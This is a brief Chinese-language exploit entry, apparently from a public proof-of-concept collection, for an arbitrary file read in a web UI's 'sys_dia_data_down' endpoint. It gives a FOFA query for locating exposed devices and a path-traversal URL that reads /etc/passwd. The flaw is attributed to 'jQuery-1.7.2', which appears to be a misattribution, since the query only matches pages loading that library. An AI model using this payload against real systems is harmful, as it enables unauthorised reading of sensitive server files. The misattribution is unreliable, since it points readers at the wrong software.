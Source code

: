 ## 漏洞描述
jQuery-1.7.2版本的sys_dia_data_down模块存在任意文件读取漏洞，攻击者可通过前台读取任意文件。

## 影响版本
1.7.2

## fofa查询语句
body="webui/js/jquerylib/jquery-1.7.2.min.js"

## 漏洞复现
``` bash
https://127.0.0.1/webui/?g=sys_dia_data_down&file_name=../../../../../etc/passwd
```

![image](https://github.com/xxxxfang/Vulnerabilities-EXP-POC/assets/86756456/4328ff72-c011-4312-8d9e-421806046797)

![image](https://github.com/xxxxfang/Vulnerabilities-EXP-POC/assets/86756456/bed4e41b-4e7e-4383-b064-b68082413e81)


